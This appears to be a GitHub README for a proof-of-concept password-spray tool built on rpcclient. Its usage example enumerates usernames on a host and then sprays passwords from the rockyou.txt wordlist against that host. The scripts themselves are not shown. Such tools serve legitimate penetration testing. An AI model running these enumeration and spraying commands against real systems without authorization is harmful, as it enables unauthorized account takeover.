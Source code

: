 # rpc-password-spray

Proof-of-concept password spray script based on `rpcclient`

## Usage

Example below checks if any user on host with IP-address 127.0.0.1 is using a password from rockyou.txt

```
chmod 755 rpc-username-lookup.sh
./rpc-username-lookup.sh 127.0.0.1 | grep "User:" | awk '{print $1}' | sed 's/^.*\\//' > MY_USERNAMES.txt

chmod 755 rpc-password-spray.sh
./rpc-password-spray.sh 127.0.0.1 MY_USERNAMES.txt /usr/share/wordlists/rockyou.txt
```


